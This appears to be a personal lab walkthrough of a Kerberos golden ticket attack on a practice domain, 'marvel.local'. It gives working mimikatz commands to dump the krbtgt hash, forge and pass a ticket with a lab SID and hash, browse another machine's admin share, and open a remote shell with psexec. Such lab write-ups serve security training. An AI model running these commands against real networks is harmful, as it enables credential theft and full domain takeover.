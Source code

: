 Download and launch mimikatz on the DC:
![[Pasted image 20240324191521.png]]

Set debug privileges:
![[Pasted image 20240324191604.png]]

WE this command does:
```cmd
lsadump::lsa /inject /name:krbtgt
```

From the output note the domain SID and the NTLM hash:
![[Pasted image 20240324191914.png]]

With these infos we can generate a golden ticket:
```cmd
kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-2326780594-1701311207-1489289825 /krbtgt:ff6b7ddd0efba581f52d431bbec9894b /id:500 /ptt
```
Args:
`/User`: Any value here, its not important
`/domain`: The domain
`/sid`: The SID from the output above
`/krbtgt`: The NTLM hash from the output above
`/id`: Admin account ID
`/ptt`: Pass the ticket

This created a new golden ticket for our current session:
![[Pasted image 20240324192625.png]]

Open a new command window with `misc::cmd`:
![[Pasted image 20240324192804.png]]
This opens a cmd prompt with our newly created golden ticket.

With `dir \\THEPUNISHER\c$` we can for example now list the directory on the THEPUNISHER machine:
![[Pasted image 20240324193016.png]]

We could download and run *psexec* against the THEPUNISHER machine to get a local shell:
```cmd
psexec.exe \\THEPUNISHER cmd.exe
```